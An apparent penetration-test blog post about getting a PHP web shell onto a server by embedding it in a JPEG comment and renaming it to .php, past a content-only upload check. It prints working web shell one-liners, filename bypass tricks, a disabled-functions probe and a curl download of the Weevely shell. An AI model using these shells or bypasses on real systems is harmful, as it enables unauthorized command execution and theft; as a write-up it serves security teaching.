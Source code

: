 ```yaml
---
layout: post
title: A Tale of a PHP Shell
tags: [pentest]
category: posts
---
```


During a penetration test where I had only a single day to get the most out of a web application, a photo upload feature caught my attention. By the time I got to the upload page, I already discovered that all the photos were uploaded to a specific directory for each authenticated user:

	http://example.com/attachments/[USERID]/
	
I knew where my uploaded files will be put, now it was time to get a shell up and working! I started with a very basic shell, which I usually employ as a starting point:

{% highlight php %}
<?php echo "<pre>"; system($_GET['cmd']); echo "</pre>"; ?>
{% endhighlight %}
	
First of all, I tried uploading a .php file directly, just to test my daily luck. Without much surprise, the application only accepted JPEG files.

Next, I tried adding the .jpg extension to my file, relying on the usual tricks as `shell.php.jpg`, `shell.jpg`, `shell.php%00.jpg` etc. None of them went through.

The only remaining solution seemed to insert the shell code into the JPEG comment, as the application apperared to accept only proper image files. It worked!

Jumping right into the newly uploaded shell, I quickly discover that the .jpg file wasn't being executed by the server, leaving me with a useless commented picture.

To test the security mechanisms further, I tried renaming the JPEG into .php and this time the upload completed successfully. The application was only checking for the file to be a proper JPEG, regardless of the extension!

Getting back to my shell, I am greeted by an error message stating that `system()` is disabled and couldn't be used to execute commands. My chances were getting thin as I figured most of the functions must have been disabled. In order to check which functions I could still use, I uploaded the following code:

{% highlight php %}
<?php echo "<pre>"; echo ini_get("disable_functions"); echo "</pre>"; ?>
{% endhighlight %}

Despite my basic knowledge of the PHP language, I immediately noticed that the returned list was not including the `exec()` function. The updated shell now looked like:

{% highlight php %}
<?php echo "<pre>"; exec($_GET['cmd']); echo "</pre>"; ?>
{% endhighlight %}

To my dismay, while not returning any error messages, the shell was returning only one-line responses (e.g. `whoami` worked, `ls` didn't). Utterly annoyed, I went back to the `exec()` guide and noticed that I got it all wrong! To properly address the output issue, the shell evolved into:

{% highlight php %}
<?php echo "<pre>"; exec($_GET['cmd'], $o, $r); print implode("\n", $o); echo "</pre>"; ?>
{% endhighlight %}

Once more, I inserted the code into a JPG comment and renamed it to shell.php. This time the uploaded shell was finally working properly! The shell could be used via the `cmd` parameter in order to execute commands directly onto the server.
	
	http://example.com/attachments/12345/shell.php?cmd=whoami

At this point, I was able to browse and operate on the whole web root, but *mod_security* was forbidding me more interesting actions, like executing `cat /etc/password`. Not completely satisfied with the result, I checked the available applications and noticed that `curl` was available...

Time was running out and I decided to try out [Weevely][weevely], an (amazing) interactive shell that can be controlled from the terminal. Using Dropbox and `curl` I was able to directly download Weevely on the remote server and the new shell was able to read /etc/passwd and return other interesting PHP configuration information, like the list of available functions.


[weevely]: https://github.com/epinna/Weevely